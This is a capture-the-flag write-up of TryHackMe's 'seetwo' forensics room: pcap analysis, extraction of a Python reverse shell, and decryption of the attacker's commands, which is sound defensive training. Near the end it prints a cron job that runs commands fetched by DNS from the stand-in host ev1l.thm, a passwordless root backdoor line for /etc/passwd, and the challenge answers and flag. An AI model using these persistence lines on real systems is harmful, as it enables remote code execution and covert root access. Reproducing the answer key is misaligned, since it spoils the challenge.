









+++
title = 'TryHackMe seetwo write-up'
date = 2025-02-05T07:07:07+01:00
+++
**Description**

*You are tasked with looking at some suspicious network activity by your digital forensics team.
The server has been taken out of production while you analyze the suspicious behavior.*

We are provided with a pcap file

Let's look at it in Wireshark. First we can view the statistics window to get an overview of the traffic captured in this file. 

We can see that the traffic is basically all TCP, containing some SSH packets and 2 HTTP packets. Let's explore those two

We see one GET request at /base64_client and the 200 OK response

By examining the response packet, we can see that a lot of base64 encoded data was transmitted. Let's decode it

We see ELF magic bytes so we know it's a linux executable file. We can save the output to a file in CyberChef. Out of curosity we can check the file on VirusTotal

It's flagged as a generic python trojan. To double check whether it's a python executable we can run strings on it

In the output we can find a bunch of python libraries, confirming that it is indeed python executable. To reverse it we firstly run [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) tool. 

As a result a directory got created with the original python bytecode files and resources

However, for us the most important file is the client.pyc, which is a bytecode version of the program (judging by the name). To decompile it we can use a tool called [python-uncompyle6](https://github.com/rocky/python-uncompyle6)

As a result we get a client.py file

It's a simple reverse shell that's connecting to 10.0.2.64 on port 1337. It receives encrypted commands, runs them and sends back encrypted result. Let's go back to Wireshark and find this communication in the pcap file. We can use this filter to find the data send from the port 1337 using tcp protocol

`tcp.srcport == 1337 && tcp.flags.push == 1`

When we follow the tcp stream in we will see the encrypted commands and results that were transferred through the network

We have the data however in the left bottom corner we see that there are only 3 packets sent and 3 received. That seems way too little considering how many packets we got in the previous step when we applied the tcp.srcport == 1337 && tcp.flags.push == 1 filter. In the right bottom corner we can notice that there are more streams. Let's see the next one

This have the same structure as the previous stream, with data starting with iVBOR and having the AAAAAAAAAA sequence towards the end, meaning these are also the encrypted commands we are looking for. Let's combine them all and decrypt them. To do that we will simply modify the code from client.py. Since the data that we want is between the character sequence of AAAAAAAAAA and iVBOR we can carve it out with regex and then run the decryption process

As a result we get the decrypted commands sent to the machine. We can see that the attacker created cron jobs that are sending a DNS query to ev1l.thm for TXT records using custom @ns.ev1l.thm DNS server. Then the result is executed. This way the attacker wants to avoid detection when communicating with the victim's machine, by blending in with existing traffic. More about it [here](https://attack.mitre.org/techniques/T1071/004/). Lastly, we can see some base64 string. Let's decode it

We have everything to answer the questions in this challenge

*What is the first file that is read? Enter the full path of the file.*

/home/bella/.bash_history

*What is the output of the file from question 1?*

mysql -u root -p'vb0xIkSGbcEKBEi'

*What is the user that the attacker created as a backdoor? Enter the entire line that indicates the user.*

toor::0:0:root:/root:/bin/bash

*What is the name of the backdoor executable?*

/usr/bin/passswd

*What is the md5 hash value of the executable from question 4?*

23c415748ff840b296d0b93f98649dec

*What was the first cronjob that was placed by the attacker?*

* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"

*What is the flag?*

THM{See2sNev3rGetOld}